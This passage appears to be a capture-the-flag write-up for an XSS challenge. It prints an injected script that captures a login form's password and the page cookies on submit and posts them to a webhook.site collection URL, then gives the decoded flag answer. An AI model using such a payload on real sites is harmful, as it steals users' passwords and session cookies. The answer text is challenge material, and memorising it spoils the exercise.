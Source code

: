 XSS vulnerability

```html
<script>
document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("authForm").addEventListener("submit", () => {
        const key = document.getElementById("authPassword").value; 
        fetch("//webhook.site/35ba567d-a7f8-402d-9a9d-e9803698e06c", {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                key: key,
                blarg: document.cookie
            })
        });
    })
});
</script>
```

After that, listen to the incomming requests to get the key.

Encoding was somehow now working correctly right away testing with `decodeURIComponent("jeg!Har%Mest&LystTil&At%V%C3%A6re-En-Hacker")` returned an error.
It turns out the "Æ" here was encoded, giving us the final answer of `jeg!Har%Mest&LystTil&At%Være-En-Hacker`
